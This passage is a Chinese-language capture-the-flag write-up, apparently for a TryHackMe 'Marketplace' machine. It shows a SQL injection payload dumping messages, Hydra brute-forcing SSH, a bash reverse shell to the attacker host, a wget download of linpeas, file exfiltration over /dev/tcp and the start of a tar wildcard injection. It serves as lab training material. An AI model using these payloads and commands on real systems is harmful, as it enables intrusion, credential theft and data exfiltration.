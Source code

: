 - 繼續 SQLi
    - `p = "-1 UNION SELECT 1,group_concat(message_content),3,4 FROM marketplace.messages --"`
    - 噴出以下內容
    ```
     User Hello!
    An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password.
    Your new password is: @b_ENXkGYUCAv3zJ,&lt;script&gt;alert(1)&lt;/script&gt;,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. We have been unable to review the listing at this time. Something may be blocking our ability to view it, such as alert boxes, which are blocked in our employee&#39;s browsers.,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. We have been unable to review the listing at this time. Something may be blocking our ability to view it, such as alert boxes, which are blocked in our employee&#39;s browsers.,Thank you for your repor 
    ```
    - 看到一段看起來很像密碼的東西
        - `@b_ENXkGYUCAv3zJ`

## SSH
- 我們有 3 個 user
    - `jake`
    - `michael`
    - `system` 
- 雖然可以徒手戳一下就好，但我今天想用 Hydra
    - `hydra -L user.txt -P password.txt ssh://10.10.74.8`
    - ![](https://i.imgur.com/0vy8paN.png)
        - 噴出的結果是 jake
            - `jake` : `@b_ENXkGYUCAv3zJ`
- SSH 登入成功
    - ![](https://i.imgur.com/pPnT6TI.png)
    - 取得 user key
        - THM{c3648ee7af1369676e3e4b15da6dc0b4}
## 提權
- 起手式先 `sudo -l` 一波
    - ![](https://i.imgur.com/kPbupbL.png)
    - 看起來是很老梗的 sudo 備份 ㄇ
        - 如果是的話我們只要戳個 Reverse shell
            -  `echo "bash -c 'bash -i >& /dev/tcp/10.13.21.55/7877 0>&1'" >> /opt/backups/backup.sh`
        -  就可以打完收工ㄌ
    -  但前題是我們需要有權限修改這個 sh
        -  ![](https://i.imgur.com/r7W7QKx.png)
            -  看樣子不行QQ，我們不是賣口 QQ
- 準備 Linpeas
    - `wget 10.13.21.55:8000/linpeas.sh`
    - 發現 sudo version 1.8.21p2
        - https://www.exploit-db.com/exploits/47502
        - 但看起來不好用
    - 發現一包 backup 檔案
        - ![](https://i.imgur.com/b7pkxQY.png)
        - 用 nc 傳出來
            - `nc -l 1234 > backup.tar`
            - `cat backup.tar > /dev/tcp/10.13.21.55/1234`
            - 發現裡面都空ㄉ
                - ㄍ騙我
                - ![](https://i.imgur.com/ujraWYL.png)
- 回想起 `backup.sh` 他後面接了一個 `*`
    - 這個時候可以套用 `tar-wildcard-injection`
        - ref : https://mqt.gitbook.io/oscp-notes/tar-wildcard-injection
        - 簡單來說 tar 會把後面的 * 的東西直接串起來當指令執行
    - `echo a > '--checkpoint=1'`